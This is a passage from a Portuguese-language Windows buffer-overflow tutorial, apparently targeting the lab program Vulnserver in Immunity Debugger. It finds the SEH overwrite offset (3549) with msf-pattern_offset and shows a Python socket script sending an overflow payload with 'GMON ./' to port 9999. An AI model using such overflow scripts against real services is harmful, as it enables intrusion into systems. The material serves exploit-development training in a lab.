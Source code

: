 Vamos atualizar em nosso script e reenviar para o programa após reiniciá-lo no Immunity.

![Enumaração do comando.](/std/winbof/winbof-52.png)

Sobrescrevemos o endereço do nSEH com os bytes 45336f45, vamos encontrar o offset exato com o msf-pattern_offset.

```bash
$ msf-pattern_offset -l 10007 -q 45336f45
[*] Exact match at offset 3549

```

Temos o offset de 3549 para atingir o endereço de EIP. Vamos atualizar o nosso script e testar com o Immunity.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"B" * 4
payload += b"C" * (offset - 3549 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```
![Enumaração do comando.](/std/winbof/winbof-53.png)
